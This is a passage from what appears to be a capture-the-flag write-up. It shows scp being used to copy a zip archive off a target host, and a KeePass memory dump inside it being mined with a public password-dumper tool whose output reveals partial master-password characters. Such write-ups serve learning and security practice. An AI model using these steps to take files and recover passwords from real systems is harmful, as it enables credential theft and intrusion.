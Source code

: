 ## Keepass

Once connected, I saw a zip file in the user's home folder. I downloaded it to my machine and unzip it.

```bash
$ scp lnorgaard@target:~/RT30000.zip .
lnorgaard@target's password: 
RT30000.zip                                                                                                                                                                                              100%   83MB   2.5MB/s   00:32    

$ unzip RT30000.zip 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx 
 ```

The zip file contained a dump, and the Keepass database. I knew it was possible to recover the password from a dump from Keepass. I looked through it with `strings`. But it was too big to find anything. I looked around and found [a tool to read it](https://github.com/vdohney/keepass-password-dumper).

```bash
$ dotnet run ../KeePassDumpFull.dmp                     
Found: ●ø               
Found: ●ø          
Found: ●ø          
Found: ●ø           
Found: ●ø           
Found: ●ø           
Found: ●ø           
Found: ●ø           
Found: ●ø           
Found: ●ø           
Found: ●●d          
Found: ●●d          
Found: ●●d          
Found: ●●d           
Found: ●●d           
Found: ●●d                                                                                                           
Found: ●●d                 
Found: ●●d           
Found: ●●d
Found: ●●d
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g

...

Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●A
Found: ●I
Found: ●:
Found: ●=
Found: ●_
Found: ●c
Found: ●M
```